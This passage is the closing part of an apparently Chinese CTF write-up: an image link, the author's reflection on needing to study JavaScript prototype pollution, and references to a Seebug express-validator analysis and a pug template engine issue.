

---

## 总结

巅峰fw就是我了，做题经验还是不足，对于原型链污染这一块的知识经过这一次比赛的检测发现还是有所欠缺，抓紧总结巩固一下js原型链污染的知识点吧。

---

## 参考资料

[Seebug express-validator 6.6.0 原型链污染分析](https://paper.seebug.org/1426/)

[pug模版引擎issue](https://github.com/pugjs/pug/issues/3312)

[@Mrkaixin师傅](https://www.mrkaixin.top/) 非常感谢Mrkaixin师傅的指导

